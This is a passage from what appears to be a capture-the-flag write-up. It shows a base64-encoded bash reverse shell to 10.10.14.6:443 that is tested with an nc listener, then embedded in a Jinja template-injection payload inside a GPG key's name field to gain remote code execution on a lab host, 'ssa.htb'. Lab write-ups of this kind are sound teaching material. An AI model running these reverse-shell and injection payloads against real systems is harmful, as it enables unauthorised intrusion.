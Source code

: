     
    
    oxdf@hacky$ echo 'bash -i >& /dev/tcp/10.10.14.6/443 0>&1' | base64
    YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC42LzQ0MyAwPiYxCg==
    oxdf@hacky$ echo 'bash  -i >& /dev/tcp/10.10.14.6/443 0>&1' | base64
    YmFzaCAgLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTQuNi80NDMgMD4mMQo=
    oxdf@hacky$ echo 'bash  -i >& /dev/tcp/10.10.14.6/443 0>&1 ' | base64
    YmFzaCAgLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTQuNi80NDMgMD4mMSAK
    

I can test this on my own system by starting `nc -lvnp 443` in one window, and
then running:

    
    
    echo YmFzaCAgLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTQuNi80NDMgMD4mMSAK | base64 -d | bash
    

It connects with a shell, which shows it works. I’ll add that to the SSTI
payload:

    
    
    {{ namespace.__init__.__globals__.os.popen('echo YmFzaCAgLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTQuNi80NDMgMD4mMSAK | base64 -d | bash').read() }}
    

Now I repeat the steps from above:

    
    
    oxdf@hacky$ gpg --gen-key 
    ...[snip]...
    Real name: {{ namespace.__init__.__globals__.os.popen('echo YmFzaCAgLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTQuNi80NDMgMD4mMSAK | base64 -d | bash').read() }}
    Email address: rce-rev@ssa.htb
    You selected this USER-ID:
        "{{ namespace.__init__.__globals__.os.popen('echo YmFzaCAgLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTQuNi80NDMgMD4mMSAK | base64 -d | bash').read() }} <rce-rev@ssa.htb>"
    ...[snip]...
    oxdf@hacky$ gpg --clearsign -o- --local-user rce-rev@ssa.htb test.msg
    -----BEGIN PGP SIGNED MESSAGE-----
    Hash: SHA512
    
    this is a test message for the SSA
    -----BEGIN PGP SIGNATURE-----
    
    iQHEBAEBCgAuFiEEaPTvcECSM3P05qiDKfMo+uSKXZIFAmVTuGYQHHJjZS1yZXZA
    c3NhLmh0YgAKCRAp8yj65IpdknPQC/0QpEh+5M5DMC+DRPyLu0HE+VfVZeQ45pOH
    S5l2KW1+Vmj8ptEveo6RnWF4I82RACrX6Rd/grY9E8abaY6WFGunbWMXlFPyAGc7
    IGxzd02uvABwUSxiZemJnJEI1kmVh7cqhaKkYiDMyG6Xy3WRl6sgoFm7HJOq/SKg
    SB8/eL0B74BvdKaMrprka/q3VJQphBQwWJDwuDJfyKuGIR7BBqLgm6cgtasCXFo1
    qZRYEKS9h8d9kzqUR6NrJFSO3yY/78LF3UaHt+3KRlDKEiGUhFJQDIR064J961nV
    3Nsp1YTIW8KYpnfcIIbM+VOFo/eDiPCyBKM67p8zGIGotgLB9wpCvKiD0JIHVMmW
    S3abZLXMmAtmrsW9ZGo5L1/FD92T1r0vYxlH+L6KRnQYzSYy+tskBPWjvfHZW6yV
    PtvWjEpFVio3SP5647p6+AbrboXfxZvcqMoePzWaVlNFst0hQDClXaDYaWeDxWv4
    EDwVLMWm2GplPfawE+Bg0I4HvSgj7U4=
    =dDIr
    -----END PGP SIGNATURE-----
    oxdf@hacky$ gpg --export -a rce-rev@ssa.htb
    -----BEGIN PGP PUBLIC KEY BLOCK-----
    